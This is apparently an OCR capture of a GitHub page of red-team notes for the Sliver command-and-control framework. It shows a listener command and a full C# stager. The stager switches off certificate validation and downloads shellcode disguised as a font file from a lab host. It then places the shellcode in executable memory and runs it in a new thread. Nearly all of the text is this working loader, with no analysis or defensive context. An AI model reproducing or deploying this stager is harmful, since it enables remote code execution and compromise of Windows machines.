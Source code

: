 ```sliver
stage-listener --url tcp://10.8.0.14:8443 --profile win64-beacon
```

# Custom Stager

## Simple HTTP C# Stager:

```c#
using System;
using System.Net;
using System.Runtime.InteropServices;

namespace Sliver_stager
{
    class Program
    {
        public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://sliver.labnet.local/fontawesome.woff");
            Execute(shellcode);

            return;
        }

        private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }


        [DllImport("kernel32")]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        
        [DllImport("kernel32")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
        
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        
        private static void Execute(byte[] shellcode)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)shellcode.Length, 0x1000, 0x40);
            Marshal.Copy(shellcode, 0, (IntPtr)(addr), shellcode.Length);
        
        
            IntPtr hThread = IntPtr.Zero;
            IntPtr threadId = IntPtr.Zero;
            hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, threadId);
        
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        
            return;
        }
    }
```